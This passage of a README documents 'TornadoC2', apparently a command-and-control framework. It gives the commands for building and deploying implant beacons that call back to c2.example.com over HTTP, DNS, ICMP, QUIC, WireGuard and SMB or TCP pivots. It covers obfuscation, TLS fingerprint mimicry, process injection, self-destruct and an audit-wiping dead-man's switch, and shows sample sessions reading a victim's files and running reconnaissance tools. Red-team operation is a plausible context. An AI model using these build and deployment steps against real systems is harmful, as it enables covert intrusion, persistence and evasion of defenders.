- **`libnotify-bin`** — desktop notifications on Linux.
- **`terminal-notifier`** — desktop notifications on macOS.

**Go modules pulled by `go mod tidy` inside the agent package:**

- `github.com/refraction-networking/utls` — browser TLS ClientHello
- `github.com/tetratelabs/wazero` — WASM extension host
- `github.com/miekg/dns` — DNS transport
- `github.com/quic-go/quic-go` — QUIC / HTTP/3 transport
- `github.com/coder/websocket` — WebSocket transport
- `github.com/chrj/wgnet` — WireGuard transport

### Go build bootstrap

Before the first agent build — and after any change to the agent's
dependency set — run `install-go-build.sh` from the repository root.
The script is idempotent: it backs up the current `go.mod` and
`go.sum`, rewrites `go.mod` with the correct module name and the
direct dependency list, installs `garble` at its pinned version,
resolves the full module graph with `go mod tidy`, normalizes every
`.go` file with `gofmt -w`, runs `go vet`, and verifies that both
target platforms still compile.

```bash
./install-go-build.sh                    # operate on ./tornadoc2/agent
./install-go-build.sh <path>             # operate on <path>
```

| Variable | Default | Read by | Effect |
|----------|---------|---------|--------|
| `TORNADO_STAGER_PAYLOAD` | *(none)* | `engine.py` | Payload name the server queues for a stager on first check-in |
| `TORNADO_NOTIFY` | `auto` | `notify.py` | Notification backend: `auto`, `off`, `ntfy://topic`, `command:/path` |
| `NTFY_URL` | `https://ntfy.sh` | `notify.py` | Base URL for the `ntfy://` backend |
| `TORNADO_DEADMAN_HOURS` | `0` | `deadman.py` | Window for the dead-man's switch, in hours, from process start. `0` disables |
| `TORNADO_DEADMAN_CHECK` | `60` | `deadman.py` | Watchdog tick interval, seconds |
| `TORNADO_DEADMAN_WARN` | `0.8,0.95` | `deadman.py` | Warning thresholds as fractions of the window |
| `TORNADO_DEADMAN_HALT` | *(empty)* | `deadman.py` | Post-wipe action: `shutdown`, `reboot`, or empty |
| `TORNADO_DEADMAN_SHRED` | `dod` | `deadman.py` | Deletion mode. Pattern modes: `fast`, `random`, `dod`, `gutmann`, `nist`, `schneier`, `hmg`, `bsi`. Structural modes: `trim`, `scrub`, `crypto`. See [Deletion modes](#deletion-modes) |
| `TORNADO_DEADMAN_SHRED_PASSES` | `3` | `deadman.py` | Pass count when the shred mode is `random` |

Kill days and connect delay are **not** runtime-configurable. Both
are baked into the agent at build time. Kill days come from the
build's `--kill-days` flag (default 30). The pre-probe jitter is a
hardcoded `2–17 s` delay before the first check-in, plus ±30 %
jitter on every subsequent retry.

### Dependency installers

Two installers ship at the repository root. The split reflects the
fact that the team server and the operator workstation need
genuinely different things — the client is a thin mTLS-speaking
Python process, and installing the Go toolchain, the transports'
server-side libraries, and the build tools on a workstation is
waste.

**Team server** — `install-deps-server.sh`. Installs the Python
handler's dependencies (flask, cryptography, dnslib, aioquic,
simple-websocket, pyroute2), the Go 1.24+ toolchain and garble,
wireguard-tools, libcap2-bin, openssl, and the build tooling the
handler needs to compile agents. Detects Debian / RHEL / Arch
family and uses the native package manager where it can; falls
through to pip for anything the distribution does not carry. The
script is idempotent.

```bash
./install-deps-server.sh                # install everything
./install-deps-server.sh --minimal      # skip UPX, MinGW, Rust, Donut
./install-deps-server.sh --help         # usage
```

**Operator workstation** — `install-deps-client.sh`. Installs
`cryptography` (used by `transport.py` to verify a signed config)
and, unless `--no-gui` / `--minimal` is passed, `PySide6` plus the
Qt runtime libraries the `xcb` and `wayland` platform plugins load
against on Linux. No Go, no Donut, no UPX, no Rust — remote builds
happen on the server.

```bash
./install-deps-client.sh                        # CLI + GUI; Qt libs
                                                #   autodetected from the session
./install-deps-client.sh --no-gui               # CLI only; no PySide6, no Qt libs
./install-deps-client.sh --x11                  # force the xcb runtime set
./install-deps-client.sh --wayland              # force the wayland runtime set
./install-deps-client.sh --qt-libs both         # install both, useful when
                                                #   the session type is uncertain
./install-deps-client.sh --qt-libs none         # GUI installs PySide6 but no
                                                #   system libs (advanced)
./install-deps-client.sh --venv ~/.tornadoc2-venv
                                                # into a venv, avoids PEP 668
./install-deps-client.sh --help                 # usage
```

The `--venv` flag is the recommended path on a workstation that
already carries its own Python environment; a virtualenv sidesteps
Debian's `externally-managed-environment` check entirely.

The `--x11`, `--wayland`, `--qt-libs both`, and `--qt-libs none`
flags control which Qt runtime libraries the installer pulls.
Without any of them the installer autodetects from the current
session: a `WAYLAND_DISPLAY` host installs the Wayland set, a
`DISPLAY`-only host installs the X11 set, and a host with neither
installs both so the GUI works whichever display the operator
connects later. The banner names the selected set and, on
autodetection, the environment variable the choice was derived
from.

The server installer covers:

| Family | System packages |
|--------|-----------------|
| Debian / Ubuntu / Kali / Mint / Pop | `python3`, `python3-pip`, `python3-flask`, `python3-cryptography`, `python3-dnslib`, `openssl`, `libssl-dev`, `libffi-dev`, `build-essential`, `git`, `curl`, `golang-go`, `wireguard-tools`, `upx-ucl`, `gcc-mingw-w64-x86-64`, `libcap2-bin`, `libnotify-bin` |
| RHEL / CentOS / Rocky / Alma / Fedora / Amazon | `python3`, `python3-pip`, `python3-flask`, `python3-cryptography`, `python3-dnslib`, `openssl`, `openssl-devel`, `libffi-devel`, `gcc`, `gcc-c++`, `make`, `git`, `curl`, `golang`, `wireguard-tools`, `upx`, `mingw64-gcc`, `libcap`, `libnotify` |
| Arch / Manjaro / EndeavourOS / Garuda | `python`, `python-pip`, `python-flask`, `python-cryptography`, `python-dnslib`, `openssl`, `libffi`, `base-devel`, `git`, `curl`, `go`, `wireguard-tools`, `upx`, `mingw-w64-gcc`, `libcap`, `libnotify` |

Plus, via `pip` for every family on the server:

- `flask`, `cryptography`, `dnslib` — HTTP listener, ECDSA and
  ECDH, DNS transport.
- `aioquic` — QUIC / HTTP/3 transport. Pulls in a compiled
  extension; the installer builds it from source if no wheel is
  available for the running Python.
- `simple-websocket` — WebSocket transport.
- `pyroute2` — WireGuard transport.

And, via `go install`:

- `mvdan.cc/garble@v0.17.0` — used by the `opsec` and `paranoid`
  OPSEC profiles. The installer places the binary in `$GOPATH/bin`
  and adds that directory to `PATH` for the current shell.

Three optional items the server installer checks but does not
force:

- **Donut** — required only for `--format shellcode` and
  `inject: true`. The installer checks for a native binary at
  `beacon/bin/donut` or on `PATH`, and prints the Python-binding
  alternative (`pip install donut-shellcode`) when neither is
  present.
- **UPX** — used only by the `paranoid` OPSEC profile. Installed
  as a system package when available; a warning and a skip
  otherwise.
- **Rust + wasm32-unknown-unknown** — required only for building
  WASM extensions. The installer does not install rustup; it adds
  the `wasm32-unknown-unknown` target to an existing rustup and
  points at the upstream install line otherwise.

Neither installer applies Linux capabilities itself. The ICMP and
WireGuard transports need `CAP_NET_RAW` and `CAP_NET_ADMIN`
respectively, and the safe way to grant them is a deliberate
action. Both installers detect the current state and print the
exact `setcap` lines to run; the operator decides whether the
change is appropriate for the host.

After `install-deps-server.sh` completes, run `install-go-build.sh`
from the repository root to repair `go.mod`, resolve the module
graph, and confirm both target platforms compile. The scripts are
independent and any can be rerun on its own.

**Linux capability for the ICMP transport.** The ICMP listener
requires `CAP_NET_RAW`. Grant it once:

    sudo setcap cap_net_raw+ep $(which python3)

or run the handler as root. Without the capability the ICMP transport
logs a refusal and does not start; the other transports are
unaffected.

```bash
git clone <repo-url>
cd <repo-dir>
pip install flask cryptography dnslib
python tornadoc2.py --beacon-port 8881
```

---

## Quick Start

### 1. Install dependencies, then start the handler

On a fresh host, install every dependency first:

```bash
./install-deps-server.sh
```

The installer detects the distribution family (Debian-derived,
RHEL-derived, or Arch-derived), installs the system packages, and
fetches the Python and Go tools the handler needs. See
[Requirements & Installation › Dependency installers](#dependency-installers)
for what it covers and what it deliberately leaves to the operator.
Rerun it any time; it is idempotent.

On the operator workstation, install the client dependencies
separately with `./install-deps-client.sh`. The two scripts are
independent and each installs only what its side needs.

Once the dependencies are in place:

```bash
# Default bind on 0.0.0.0, beacon listener on 8881
python tornadoc2.py --beacon-port 8881

# Specific bind and port
python tornadoc2.py -H 0.0.0.0 --beacon-port 8881

# With mTLS using the handler's own bundle
python tornadoc2.py --beacon-port 8881 --beacon-mtls-ca mtls_certs/ca.pem

# With a custom PKI directory
python tornadoc2.py --beacon-port 8881 --beacon-mtls-dir /etc/pki/eng

# With the DNS transport alongside HTTP
python tornadoc2.py --beacon-port 8881 \
                    --dns-port 53 --dns-domain c2.example.com

# With the ICMP transport (requires CAP_NET_RAW)
sudo python tornadoc2.py --beacon-port 8881 --icmp

# With the QUIC / HTTP/3 transport on UDP 8885. Requires aioquic.
python tornadoc2.py --beacon-port 8881 --beacon-quic-port 8885

# With the WebSocket transport on TCP 8884. Requires simple-websocket.
# Runs alongside the HTTP listener on its own socket; same certificate
# and CA material.
python tornadoc2.py --beacon-port 8881 --ws-port 8884

# With the WireGuard transport on UDP 51820. Requires root or
# CAP_NET_ADMIN and pyroute2. The handler generates its own WireGuard
# keypair on first run and prints the public half — copy that value
# into every agent build.
sudo python tornadoc2.py --beacon-port 8881 --wireguard

# With the DNS and DoH transports in one handler. DoH is served by
# the same DNS listener; --dns-port enables both.
sudo python tornadoc2.py --beacon-port 8881 \
                         --dns-port 53 --dns-domain c2.example.com

# With the team server (multiplayer) enabled — loopback by default
python tornadoc2.py --beacon-port 8881 --operator-port 12341

# With the team server exposed to remote operators
python tornadoc2.py --beacon-port 8881 --operator-port 12341 \
                    --operator-host 0.0.0.0

# With the dead-man's switch armed and configured to shut the box down
TORNADO_DEADMAN_HOURS=48 TORNADO_DEADMAN_HALT=shutdown \
python tornadoc2.py \
    --beacon-port 8881 --operator-port 12341 --operator-host 0.0.0.0
```

If `--operator-port` is set and `--operator-host` is not, the
operator listener binds to `0.0.0.0` — every interface — so a remote
operator can reach it without a second flag. Pass `--operator-host
127.0.0.1` explicitly for loopback-only. The startup banner prints a
warning when the listener is exposed publicly.

The listener auto-discovers every C2 profile under `profiles/c2/` and
registers its paths alongside the defaults. **All profiles are served
concurrently on the same port, the same certificate, and the same
process.** A beacon built against one profile and a beacon built
against another both check in to the same handler and each receives
the response shape its own profile declared. There is no "active
profile" — the path in the request is the profile.

To narrow the handler to a single profile — for strict isolation
during a focused engagement, or to reduce the startup route table —
pass `--beacon-profile <name>`. Without the flag, every profile in
the directory is loaded.

Expected startup banner:

```
[BEACON] listening on 0.0.0.0:8881
[BEACON] DNS transport on 0.0.0.0:53 zone=c2.example.com
[BEACON] ICMP transport active (raw socket)
[PIVOT] listener on 0.0.0.0:8882
[TEAM] operator listener on 127.0.0.1:12341 (multiplayer off)
[TUNNEL] client tunnel on 0.0.0.0:8883 (mTLS, capability beacon.socks)
```


Every line except the first is optional and appears only when the
corresponding flag is passed. If `--operator-host` is `0.0.0.0` or
`::`, the operator-listener line gains a warning that the port is
reachable from every interface.

The DNS line serves both the UDP DNS transport and any DoH client —
the C2 does not distinguish the two. A beacon built with
`--transport doh` reaches the same listener as a beacon built with
`--transport dns`; they differ only in how the query reaches the
authoritative NS.

### 2. Build an agent

**Interactive wizard:**

```
beacon> beacon-build
```

Prompts for target OS, architecture, output format, transport,
callback URL or DNS zone, OPSEC profile, C2 profile, TLS fingerprint,
kill days, working-hours window, whether to embed the mTLS client
bundle, and whether to enable in-memory injection for `migrate <pid>`.

**Non-interactive — HTTP:**

```
beacon> beacon-build linux amd64 --profile stealth \
        --c2-profile chrome --kill-days 30
```


**Non-interactive — QUIC / HTTP/3:**

```
beacon> beacon-build linux amd64 --transport quic \
        --url https://c2.example.com:8885 \
        --c2-profile chrome
```

The `--url` port must match the handler's `--beacon-quic-port`.

**Non-interactive — WebSocket:**

```
beacon> beacon-build linux amd64 --transport websocket \
        --url https://c2.example.com:8884 \
        --c2-profile chrome --tls-profile chrome
```

The `--url` port must match the handler's `--ws-port`. The scheme is
converted to `wss://` at dial time by the client.

**Non-interactive — WireGuard:**

```
# The handler prints its WireGuard public key at startup. Copy it
# into the build. Generate an agent keypair on the team server with
# `wg genkey | tee agent.key | wg pubkey`; paste the private half
# here and pin the public half server-side after deployment.

beacon> beacon-build linux amd64 --transport wireguard \
        --wireguard-server-pubkey <base64> \
        --wireguard-server-addr c2.example.com:51820 \
        --wireguard-agent-privkey <base64> \
        --wireguard-tunnel-ip 10.99.0.2 \
        --wireguard-server-tunnel-ip 10.99.0.1
```

The last flag is the default and can be omitted; it is shown here so an operator reading the invocation sees the field exists. A handler started with a non-default `--wireguard-server-ip` needs every agent built with the matching `--wireguard-server-tunnel-ip`.

After the agent is deployed, pin its public key on the server console:

```
beacon> wireguard add-peer <agent-pubkey> 10.99.0.2
```

Until the peer is pinned, the server's WireGuard device silently
drops the agent's packets.

**Non-interactive — HTTPS + DNS with failover:**

```
beacon> beacon-build linux amd64 --transport http,dns \
        --url https://c2.example.com:8881 \
        --dns-domain c2.example.com --failover-after 3
```

**Non-interactive — SMB pivot parent and child:**

```
beacon> beacon-build --pivot-key-gen mtls_certs/pivot.pem
generated pivot keypair
file : mtls_certs/pivot.pem
private: <base64 PKCS8 DER>
public : <base64 SPKI DER>

beacon> beacon-build windows amd64 \
        --url https://c2.example.com:8881 \
        --smb-relay-pipe tornado_relay_001 \
        --pivot-key mtls_certs/pivot.pem

beacon> beacon-build windows amd64 \
        --transport smb \
        --smb-pipe tornado_relay_001 \
        --pivot-key mtls_certs/pivot.pem
```

**Non-interactive — TCP bind pivot parent and child:**

```
beacon> beacon-build linux amd64 --transport tcp \
        --tcp-bind 0.0.0.0:4444 --tcp-token-gen \
        --pivot-key mtls_certs/pivot.pem
generated tcp_bind_token: 8f3a...c1e2

beacon> beacon-build linux amd64 \
        --url https://c2.example.com:8881 \
        --tcp-relay 10.0.0.5:4444 \
        --tcp-relay-token 8f3a...c1e2 \
        --pivot-key mtls_certs/pivot.pem
```

**Non-interactive — TCP reverse pivot parent and child:**

```
beacon> beacon-build linux amd64 \
        --url https://c2.example.com:8881 \
        --tcp-rev-listen 0.0.0.0:4444 --tcp-rev-token-gen \
        --pivot-key mtls_certs/pivot.pem
generated tcp_rev_token: 8f3a...c1e2

beacon> beacon-build linux amd64 --transport tcprev \
        --tcp-rev-target 10.0.0.5:4444 \
        --tcp-rev-token 8f3a...c1e2 \
        --pivot-key mtls_certs/pivot.pem
```

**Config file:**

```
beacon> beacon-build -c example-build-config-for-all.json
```

See [Build Config File](#build-config-file) for the schema.

Flags:

| Flag | Values | Default |
|------|--------|---------|
| `--format <fmt>` | `exe`, `dll`, `elf`, `shellcode`, `stager` | `exe` on Windows, `elf` elsewhere |
| `--transport <mode>` | `http`, `quic`, `websocket`, `dns`, `doh`, `icmp`, `wireguard`, `smb`, `tcp`, `tcprev`, or a comma-separated list drawn from `http`, `dns`, `doh` | `http` |
| `--failover-after <N>` | Consecutive failures before rotation | `3` |
| `--wireguard-server-pubkey <base64>` | WireGuard: the server's public key, printed by the handler at startup | *(required for `wireguard`)* |
| `--wireguard-server-addr <host:port>` | WireGuard: the server's UDP listener, as reachable from the target | *(required for `wireguard`)* |
| `--wireguard-agent-privkey <base64>` | WireGuard: the agent's private key, generated out of band with `wg genkey` | *(required for `wireguard`)* |
| `--wireguard-tunnel-ip <ipv4>` | WireGuard: the agent's IPv4 address inside the tunnel | *(required for `wireguard`)* |
| `--wireguard-server-tunnel-ip <ipv4>` | WireGuard: the server's IPv4 address inside the tunnel. Must match the handler's `--wireguard-server-ip` value | `10.99.0.1` |
| `--url <url>` | HTTPS callback URL (HTTP only) | Derived from the running handler |
| `--dns-domain <zone>` | Authoritative zone (DNS and DoH) | *(none)* |
| `--dns-resolver <host:port>` | Resolver to query (DNS only) | system default |
| `--doh-resolver <url>` | DoH endpoint URL (DoH only) | `https://cloudflare-dns.com/dns-query` |
| `--doh-host <host>` | DoH: `Host:` header override | *(none)* |
| `--doh-ua <ua>` | DoH: `User-Agent` override | Firefox 129 UA |
| `--icmp-host <ipv4>` | ICMP: the C2's public IPv4 | *(required for `icmp`)` |
| `--smb-pipe <name>` | SMB pivot child: parent's pipe name (bare name, same-host) or UNC path `\\HOST\pipe\NAME` (cross-host over SMB) | *(none)* |
| `--smb-relay-pipe <name>` | SMB pivot parent: pipe to listen on. Bare name only — letters, digits, `.`, `_`, `-`. No path prefix, no UNC form | *(none)* |
| `--tcp-bind <addr>` | TCP pivot child: listen address | *(none)* |
| `--tcp-token <hex>` | TCP pivot child: 64-hex shared secret | *(none)* |
| `--tcp-token-gen` | TCP pivot child: generate a token and print it | — |
| `--tcp-relay <host:port>` | TCP pivot parent: child listener to dial | *(none)* |
| `--tcp-relay-token <hex>` | TCP pivot parent: must match child token | *(none)* |
| `--tcp-rev-listen <host:port>` | TCP reverse parent: TCP port to listen on | *(none)* |
| `--tcp-rev-target <host:port>` | TCP reverse child: parent's listener to dial | *(none)* |
| `--tcp-rev-token <hex>` | TCP reverse: 64-hex shared secret; both ends must match | *(none)* |
| `--tcp-rev-token-gen` | TCP reverse parent: generate a token and print it | — |
| `--pivot-key <path>` | Pivot keypair file (PEM). **Required** for every SMB, TCP bind, or TCP reverse build, parent or child. The builder embeds the half the build's role needs | *(none)* |
| `--pivot-key-gen [<path>]` | Generate a fresh pivot keypair, write it to `<path>` (default `mtls_certs/pivot.pem`), print both halves, and exit — no build is performed | `mtls_certs/pivot.pem` |
| `--identity-role <name>` | Agent identity role. Disambiguates two agents built from the same tree that run on the same host under the same user — without a role, both resolve to one session, one cookie, one task queue, and one row in the beacon list. The builder defaults the role to `smb-child`, `tcp-bind`, or `tcp-rev` for the three pivot child transports; every other build defaults to empty, which reproduces the pre-role fingerprint. The role travels in its own wire field, not as a hostname suffix. Set explicitly to name two non-pivot builds, or to override the transport default | empty |
| `--profile <name>` | `default`, `stealth`, `opsec`, `paranoid` | `default` |
| `--c2-profile <name>` | A profile name under `profiles/c2/` | Handler default |
| `--tls-profile <name>` | `go`, `chrome`, `firefox`, `safari`. Has effect on HTTP, DoH, and WebSocket. Accepted but ignored on QUIC and WireGuard | `go` |
| `--kill-days <N>` | Days until self-destruct (0 = no deadline) | `30` |
| `--work-hours <spec>` | `HH:MM-HH:MM` or `off`. Start must not equal end unless both are `00:00` — a wrapped window such as `22:00-06:00` is supported | `08:00-19:00` |
| `--work-off` | Shorthand for `--work-hours off` (both bounds `00:00`) | — |
| `--mtls` | Embed the handler's own `mtls_certs/` bundle | off |
| `--mtls-dir <dir>` | Directory with `client.pem`, `client.key`, `ca.pem` | off |
| `--mtls-cert` / `--mtls-key` / `--mtls-ca` | Override individual PEM paths | off |
| `--stage-key <hex>` | Stager: 32-byte AES-256 key, hex-encoded. Blank generates a fresh key and records it in `payloads/stage_keys.json` | auto |
| `--stage-name <name>` | Stager: payload name to fetch — **required for stager builds** | *(none)* |
| `--inject` | Second build pass that embeds a loader-wrapped copy of the pass-1 binary as shellcode, adding `migrate <pid>` support. Windows runs Donut on the PE; Linux prepends the vendored ELF-loader stub. Costs ~13 MB of final binary size | off |
| `--inject-method <name>` | Build-time default for `migrate <pid>` when no `--method` flag is supplied. Values: `default` (`CreateRemoteThread` / `ptrace`), `apc` (remote APC injection, Windows only, requires `--inject`). `threadpool`, `fiber`, and `callback` are refused with an error naming the correct verb | `default` |
| `--verbose` | Diagnostic stderr on the target | off |

Compiled agents land in `beacon_output/`, named
`<prefix>_<os>_<transport-slug>_<arch>[.exe]`, where `<prefix>` is
`beacon` for a full agent or `stager` for a stager, and
`<transport-slug>` is the comma-separated transport list with commas
replaced by dashes.

| Build | Output filename |
|---|---|
| default HTTP, Linux amd64 | `beacon_linux_http_amd64` |
| `--transport http,dns`, Linux amd64 | `beacon_linux_http-dns_amd64` |
| `--transport smb`, Windows amd64 | `beacon_windows_smb_amd64.exe` |
| `--format stager`, Linux amd64 | `stager_linux_http_amd64` |

**mTLS is a shared secret between the build and the listener.** A
beacon built against PKI `A` cannot check in against a listener
configured for PKI `B`. If you build with a custom `--mtls-dir`,
start the handler with `--beacon-mtls-dir` pointing at the same
directory. The wizard checks for this mismatch at build time and
warns before compiling.

Setting `--work-hours 12:00-12:00` is refused by the agent at
runtime — a zero-length window would mean the beacon never polls.
Use `--work-off` to disable the gate.

**Two transports are Linux-only on one side.** The `icmp` transport
is refused at build time for `target_os=windows`, and the server-side
Python listener refuses to start on Windows. The `smb` transport is
Windows-only on both sides. `doh`, `tcp`, and `tcprev` are
cross-platform.

### 3. Deploy and run

Run the agent on the target. On the first check-in the operator
console prints:

```
[BEACON] New beacon #1001: alice@WIN-DEV (windows/amd64) | beacon 1001
```

For a relayed child (SMB or TCP bind), two lines print in sequence:

```
[BEACON] New beacon #1001: alice@parent-host (windows/amd64) | beacon 1001
[BEACON] New beacon #1002: bob@child-host   (windows/amd64) | beacon 1002
```

### 4. Operate

```
beacon> beacons                        # List active beacons
beacon> beacon 1001                    # Attach to a beacon console
● beacon#1001 > ls C:\Users\alice
● beacon#1001 > cat C:\Users\alice\notes.txt
● beacon#1001 > exec whoami /all
● beacon#1001 > execute-assembly C:\tools\Seatbelt.exe -- -group=all
● beacon#1001 > sleep 120 0.4          # Change check-in interval
● beacon#1001 > schedule add 5m ps     # Recurring task
● beacon#1001 > exit                    # Detach (beacon keeps running)
● beacon#1001 > kill                    # Self-destruct (unlinks binary)
```

---

## Deployment Playbook

Most engagements follow the same four phases. A short section for
each removes the "how do I actually start" step.

### Minimal HTTPS engagement

```bash
# 1. Start the handler with the team server bound to loopback
python tornadoc2.py --beacon-port 8881 \
                    --operator-port 12341 \
                    --operator-host 127.0.0.1

# 2. In the local console, create the operator account
beacon> operator add alice operator
  # prompts for an optional password — leave blank for cert-only
  # for an automated workflow, set one for an interactive operator

# 3. Export the client config
beacon> operator export alice
  ✓ exported config for alice (…)
    path: team_ca/operators/alice/alice.cfg

# 4. Copy alice.cfg to the operator's machine out of band

# 5. On the operator machine, launch the client
python beacon-client.py -c alice.cfg
```

### With QUIC fallback

```bash
# Handler
python tornadoc2.py --beacon-port 8881 \
                    --beacon-quic-port 8885 \
                    --operator-port 12341
```

```json
// Build config
{
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "quic",
  "url": "https://c2.example.com:8885",
  "tls_profile": "chrome",
  "c2_profile": "chrome",
  "kill_days": 30
}
```

Note: in the current version, `quic` cannot be combined with
another transport in the same binary. For failover between HTTP
and QUIC, build two binaries with different transports.

### WireGuard-only deployment

For a network that filters TCP/443 but permits UDP outbound.

```bash
# Handler (as root, or with CAP_NET_ADMIN set on python3)
sudo python tornadoc2.py \
    --beacon-port 8881 \
    --wireguard --wireguard-port 51820 \
    --operator-port 12341

# The startup banner prints the server's WireGuard public key.
# Copy it into the build.
```

```json
// Build config
{
  "target_os": "linux",
  "target_arch": "amd64",
  "output_format": "elf",
  "transport_mode": "wireguard",
  "wireguard_server_pubkey": "<base64 from the startup banner>",
  "wireguard_server_addr": "c2.example.com:51820",
  "wireguard_agent_privkey": "<base64 from `wg genkey`>",
  "wireguard_tunnel_ip": "10.99.0.2",
  "wireguard_server_tunnel_ip": "10.99.0.1",
  "kill_days": 30
}
```

After the agent is deployed, pin its public key on the server console
with `wireguard add-peer <agent-pubkey> 10.99.0.2`. Until that pin is
in place, WireGuard silently drops the agent's packets.

### Pivoted SMB deployment

Covered in [Pivot Transports › Deploying a pivot](#deploying-a-pivot).
The short version:

1. `beacon-build --pivot-key-gen` on the team server.
2. Build the parent — `--smb-relay-pipe <name> --pivot-key …`.
3. Build the child — `--transport smb --smb-pipe <name> --pivot-key …`.
4. Deploy the parent first. Wait for it to appear in `beacons`.
5. Deploy the child. It dials, handshakes, checks in.

### TCP reverse pivot deployment

For a segmented network where the parent can listen on a TCP port
the child can reach, but the parent cannot dial the child.

```bash
# 1. Build the parent first — it generates the token
beacon> beacon-build linux amd64 \
        --url https://c2.example.com:8881 \
        --tcp-rev-listen 0.0.0.0:4444 --tcp-rev-token-gen \
        --pivot-key mtls_certs/pivot.pem
generated tcp_rev_token: 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c...

# 2. Build the child with the same token
beacon> beacon-build linux amd64 --transport tcprev \
        --tcp-rev-target 10.0.0.5:4444 \
        --tcp-rev-token 8f3a1b2c4d5e6f7a8b9c0d1e2f3a4b5c... \
        --pivot-key mtls_certs/pivot.pem

# 3. Deploy the parent. Its listener is opened on the first relay
#    attempt, so allow a few seconds for the child to arrive.
# 4. Deploy the child. It dials, handshakes, checks in.
```

The child's stderr shows `[beacon] tcp reverse: connected to
<parent>:4444` once the pivot handshake completes; the parent's
stderr shows `[beacon] tcp reverse pivot: child <fp> connected from
<addr>`. From the operator console the child appears as a normal
beacon with the same task queue, same profile handling, and same
beacon ID.

### Behind a redirector

Point the beacon's callback URL at the redirector, not the team
server. The redirector forwards to the team server's beacon port.

```nginx
# nginx
server {
    listen 443 ssl http2;
    server_name c2.example.com;

    ssl_certificate     /etc/letsencrypt/live/c2.example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/c2.example.com/privkey.pem;

    location / {
        proxy_pass https://10.0.0.5:8881;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
    }
}
```

The beacon verifies the redirector's certificate against the
config's pinned CA. A redirector that terminates TLS with a
public CA will fail the pin — either install the config's CA on
the redirector, or terminate TLS at the redirector and use a
plain-HTTP backhaul to the team server.

### Running under systemd

```ini
# /etc/systemd/system/tornadoc2.service
[Unit]
Description=TornadoC2 team server
After=network-online.target
Wants=network-online.target

[Service]
Type=simple
User=tornado
WorkingDirectory=/opt/TornadoC2
ExecStart=/usr/bin/python3 tornadoc2.py \
    --beacon-port 8881 \
    --operator-port 12341 \
    --operator-host 127.0.0.1
Restart=on-failure
RestartSec=10
StandardOutput=journal
StandardError=journal

# The dead-man's switch calls systemctl poweroff/reboot on halt.
# Grant the two capabilities it needs via a polkit rule, not root.
NoNewPrivileges=yes
PrivateTmp=yes
ProtectSystem=strict
ReadWritePaths=/opt/TornadoC2

[Install]
WantedBy=multi-user.target
```

The `StandardOutput=journal` line is important for the dead-man's
switch — the "REMOTE HALT by …" line is the only durable record
of who triggered the halt after the audit log is wiped.

### Running under Docker

The tree ships a `Dockerfile` and a `docker-compose.yml` for operators
who prefer to run the team server as a container. The image bundles
the Python handler, the Go toolchain, and every optional dependency
the handler needs to compile agents on the fly — the operator does
not need Go, MinGW, or a C compiler on the host.

**Build the image.**

```bash
docker build -t tornadoc2:latest .
```

Optional build args, all off by default except the first two:

| Arg | Default | Effect |
|-----|---------|--------|
| `INSTALL_UPX` | `1` | Install `upx-ucl` for the `paranoid` OPSEC profile |
| `INSTALL_MINGW` | `1` | Install MinGW-w64 for `output_format=dll` builds |
| `INSTALL_DONUT` | `0` | When `1`, installs `donut-shellcode` (the Python binding with a bundled `donut` binary) if no vendored binary is present at `beacon/bin/donut`. Required for `--format shellcode` builds and for `inject: true` on a Windows build |
| `INSTALL_RUST` | `0` | Add rustup + `wasm32-unknown-unknown` for building WASM extensions |
| `BOOTSTRAP_GO` | `1` | Run `install-go-build.sh` at build time to warm the Go module cache |
| `GO_VERSION` | `1.24.4` | Pinned Go toolchain version |

```bash
# Minimal image — no UPX, no MinGW, no WASM toolchain.
docker build \
    --build-arg INSTALL_UPX=0 \
    --build-arg INSTALL_MINGW=0 \
    --build-arg INSTALL_RUST=0 \
    -t tornadoc2:slim .

# Full image with WASM toolchain.
docker build --build-arg INSTALL_RUST=1 -t tornadoc2:full .
```

**Run.**

```bash
docker run -d \
    --name tornadoc2 \
    --restart unless-stopped \
    --cap-add=NET_RAW \
    --cap-add=NET_ADMIN \
    -p 8881:8881 -p 8884:8884 -p 8885:8885/udp \
    -p 12341:12341 \
    -p 53:53/udp -p 53:53/tcp \
    -v "$PWD/tls_certs":/opt/TornadoC2/tls_certs \
    -v "$PWD/mtls_certs":/opt/TornadoC2/mtls_certs \
    -v "$PWD/team_ca":/opt/TornadoC2/team_ca \
    -v "$PWD/.keys":/opt/TornadoC2/.keys \
    -v "$PWD/logs":/opt/TornadoC2/logs \
    -v "$PWD/bofs":/opt/TornadoC2/bofs \
    -v "$PWD/beacon_output":/opt/TornadoC2/beacon_output \
    -v "$PWD/payloads":/opt/TornadoC2/payloads \
    tornadoc2:latest \
    --beacon-port=8881 \
    --operator-port=12341 \
    --operator-host=0.0.0.0 \
    --dns-port=53 --dns-domain=c2.example.com
```

The entrypoint forwards every argument to `tornadoc2.py`, so the full
flag set from the handler works unchanged.

**Compose.**

`docker compose up -d` starts the handler with the transports the
`command:` block names, mounts the state directories from the repo
tree, and applies the two capabilities the ICMP and WireGuard
transports need.

The shipped compose file enables only HTTP and the operator API by
default. DNS, QUIC, WebSocket, ICMP, and WireGuard are commented
out and must be uncommented per engagement. The reason is that
`--dns-port 53` conflicts with `systemd-resolved` on any modern
Debian/Ubuntu host; a fresh `docker compose up` against the shipped
file without editing it would fail on the port bind rather than
starting cleanly.

The restart policy is `on-failure`. `unless-stopped` interacts badly
with the dead-man's switch: the switch calls `os._exit(1)` after
wiping the tree, Docker restarts the container on an exit it did
not itself initiate, and the container comes up against an empty
`.keys/` directory with no way to recover. `on-failure` does not
restart on a clean exit, and pairs correctly with the host-side
`docker compose down` that the README's dead-man's switch section
recommends for containerised deployments.

**Capabilities.** Two transports need Linux capabilities on the
container process:

| Transport | Capability | Needed for |
|-----------|-----------|------------|
| ICMP | `CAP_NET_RAW` | Raw socket for the echo listener |
| WireGuard | `CAP_NET_ADMIN` | Netlink binding for the kernel interface |

Neither is granted by default. `docker run` without `--cap-add` starts
the handler and everything except those two transports works; the
entrypoint prints a warning on the first startup line naming the fix.
`docker compose` grants both via the `cap_add:` block. Grant
`CAP_NET_ADMIN` only when the WireGuard transport is enabled — it is
a broad privilege that lets the container reconfigure host network
interfaces if the deployment uses `--network=host`.

**Volume layout.** Every directory the handler writes to persists
outside the container. The recommended mount set is the one in the
compose file — `tls_certs/`, `mtls_certs/`, `team_ca/`, `.keys/`,
`logs/`, `bofs/`, `beacon_output/`, `payloads/`, and `profiles/`.
